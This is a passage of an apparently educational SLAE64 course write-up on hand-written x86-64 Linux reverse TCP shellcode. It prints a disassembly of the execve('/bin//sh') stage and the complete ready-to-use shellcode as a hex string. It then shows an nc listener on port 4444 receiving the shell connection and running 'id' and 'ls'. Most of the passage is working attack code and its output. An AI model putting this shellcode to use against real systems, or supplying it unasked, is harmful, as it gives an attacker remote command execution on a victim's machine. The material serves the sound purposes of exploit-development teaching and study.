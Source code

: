 ```shell
  4000e0:	48 83 c0 21          	add    rax,0x21
  4000e4:	48 83 c6 01          	add    rsi,0x1
  4000e8:	0f 05                	syscall 
  4000ea:	48 31 c0             	xor    rax,rax
  4000ed:	50                   	push   rax
  4000ee:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f2f6e69622f
  4000f5:	2f 73 68 
  4000f8:	53                   	push   rbx
  4000f9:	48 89 e7             	mov    rdi,rsp
  4000fc:	50                   	push   rax
  4000fd:	48 89 e2             	mov    rdx,rsp
  400100:	57                   	push   rdi
  400101:	48 89 e6             	mov    rsi,rsp
  400104:	48 83 c0 3b          	add    rax,0x3b
  400108:	0f 05                	syscall
```

The updated reverse shellcode can be seen below in one line:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ objdump -d ./reverse-shellcode-course |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xb0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\x83\xc6\x01\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\xc7\x44\x24\xfc\x7f\x01\x01\x66\xc7\x44\x24\xfa\x11\xc6\x44\x24\xf8\x02\x48\x83\xec\x08\x48\x83\xc0\x2a\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x83\xc6\x01\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x83\xc6\x01\x0f\x05\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"
```

Also, in order to prove the functionality of the reverse shell we create a listener on port `4444` with `nc` in one terminal window and in another we execute the reverse executable. Then, back to the first we verify the incoming connection and run the commands `id` and `ls`.

1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~$ nc -lvnp 4444
```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ ./reverse-shellcode-course 

```

1<sup>st</sup> window again:

```shell
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 54234)
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
reverse-c
reverse-c.c
reverse-shellcode-course
reverse-shellcode-course.nasm
reverse-shellcode-course.o
reverse.nasm
exit
geobour98@slae64-dev:~$
```
